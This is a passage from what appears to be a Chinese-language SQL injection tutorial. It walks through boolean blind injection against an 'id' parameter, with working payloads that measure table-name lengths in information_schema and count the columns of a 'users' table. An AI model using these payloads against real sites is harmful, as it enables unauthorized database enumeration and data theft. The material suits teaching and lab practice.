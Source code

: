 ```plain
第四个表长度为 5
?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 3,1))=5 --+
```

知道每个表的长度后，我们再使用和库名一样的方式猜解表名  
[![](assets/1707953831-fa0a0603b3e9f6f608a0bcbf3ecca274.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192005-5911321a-c34f-1.png)  
例如第一个表名称为 emails  
[![](assets/1707953831-46a192b1d4ad9a5cf032f5d2060e8574.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192036-6b5be320-c34f-1.png)  
知道表（第四个表，长度为五，是 users）的信息后，我们再来猜列的个数，这里可以看到有三个列

```plain
?id=1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name = 'users')=3 --+
```
